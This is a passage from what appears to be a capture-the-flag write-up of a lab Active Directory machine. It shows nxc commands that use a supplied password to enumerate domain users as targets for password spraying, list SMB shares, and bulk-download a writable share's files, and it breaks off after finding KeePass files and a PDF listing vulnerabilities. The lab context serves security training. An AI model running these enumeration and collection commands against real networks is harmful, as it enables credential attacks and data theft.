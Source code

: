 ```bash
Microsoft Windows Server 2019 or Windows 10 (97% confidence)
```

This confirms we are dealing with a Windows AD environment, setting the stage for user enumeration and credential-based attacks. Using the `nxc` tool, we first enumerate all domain users. This gives us a list of potential targets for later password spraying and privilege escalation attempts:

{% code overflow="wrap" %}
```bash
# Extract domain users for future use
$ nxc smb fluffy -u j.fleischman -p J0elTHEM4n1990! --users | \
  awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users
```
{% endcode %}

Next, we list SMB shares accessible to `j.fleischman`. Aside from the default shares (`ADMIN$`, `C$`, `IPC$`), there is a non-default share named `IT` which has `READ`/`WRITE` permissions. This is interesting because writable shares can contain sensitive files or serve as a pivot for attacks:

```bash
# List SMB shares
$ nxc smb fluffy -u j.fleischman -p J0elTHEM4n1990! --shares
...
SMB  10.10.11.69  445 DC01   IT        READ,WRITE
```

We recursively download all files from the `IT` share, ignoring standard admin shares, to inspect for any useful information or credentials:

```bash
# Download contents of IT share
$ nxc smb fluffy -u j.fleischman -p J0elTHEM4n1990! -M spider_plus \
  -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=420000 OUTPUT_FOLDER=./ \
  EXCLUDE_FILTER=admin$,print$,ipc$,netlogon,sysvol
```

Within the downloaded files, we find a folder containing KeePass files (`KeePass-2.58`) and an interesting PDF document named `Upgrade_Notice.pdf`. We convert it to text and read it:

```bash
$ pdftotext Upgrade_Notice.pdf
```

This document reveals known vulnerabilities relevant to the environment, potentially giving clues on attack vectors:

<figure><img src="../../.gitbook/assets/fluffy_cves.png" alt=""><figcaption></figcaption></figure>
